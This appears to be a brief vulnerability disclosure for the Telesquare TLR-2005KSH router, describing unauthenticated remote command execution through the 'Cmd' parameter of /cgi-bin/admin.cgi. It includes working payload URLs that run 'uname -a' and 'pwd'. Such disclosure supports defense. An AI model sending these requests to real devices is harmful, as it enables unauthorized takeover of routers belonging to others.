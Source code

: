 # Telesquare TLR-2005KSH The router has an unauthorized remote command execution vulnerability

## Vulnerability Details：

By inputting the following payload to access vulnerable devices, an attacker can exploit this vulnerability to execute system commands unauthorized through the 'Cmd' parameter



/cgi-bin/admin.cgi?Command=sysCommand&Cmd=uname%20-a

![1734088238407](C:\Users\zzcun\Desktop\TLR-2005KSH\assets\1734088238407.jpg)

/cgi-bin/admin.cgi?Command=sysCommand&Cmd=pwd

![1734088373076](C:\Users\zzcun\Desktop\TLR-2005KSH\assets\1734088373076.jpg)

This vulnerability affects known product versions: 2.6.36 and later.

